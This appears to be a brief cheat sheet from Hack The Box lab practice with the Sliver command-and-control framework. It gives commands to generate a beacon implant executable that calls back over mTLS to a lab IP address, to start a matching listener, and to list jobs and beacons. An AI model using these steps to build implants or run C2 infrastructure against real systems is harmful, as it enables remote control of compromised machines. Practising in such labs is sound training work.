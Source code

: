 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 1    mtls   tcp        80                   
sliver > `use beacons`    

